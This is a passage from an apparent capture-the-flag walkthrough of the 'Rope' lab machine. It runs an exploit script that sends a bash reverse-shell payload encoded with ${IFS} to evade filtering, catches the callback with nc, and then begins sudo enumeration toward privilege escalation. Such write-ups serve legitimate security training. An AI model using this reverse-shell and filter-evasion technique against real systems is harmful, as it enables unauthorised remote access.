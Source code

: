 ### Shell

Now I can run my script to get a shell. In building this up, I tested with touching a file in `/tmp` and then checking via the webserver. But once it’s working, I can use a reverse shell:

```

root@kali# ./rope_shell.py 10.10.10.148 "bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'"                                                                                        
[+] Main base address:   0x565be000
[+] libc base address:   0xf7d0d000
[+] GOT table for puts:  0x565c3048
[+] system address:      0xf7d49d10
[+] system lower:            0x9d10
[+] system upper:        0xf7d4
[*] Command: bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'
[*] Encoded command: echo${IFS}YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ0MyAwPiYxJw==${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}/bin/sh
[*] Sending exploit

```

And get a callback:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.148.
Ncat: Connection from 10.10.10.148:60820.
bash: cannot set terminal process group (1103): Inappropriate ioctl for device
bash: no job control in this shell
bash: /root/.bashrc: Permission denied
john@rope:/opt/www$ id
uid=1001(john) gid=1001(john) groups=1001(john)

```

## Shell as r4j

### Enumeration

Before uploading any recon scripts, in my basic checks I always check `sudo`, and here, there’s something interesting. I can run `/usr/bin/readlogs` as r4j without password:

```

john@rope:/$ sudo -l
Matching Defaults entries for john on rope:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on rope:
    (r4j) NOPASSWD: /usr/bin/readlogs

```

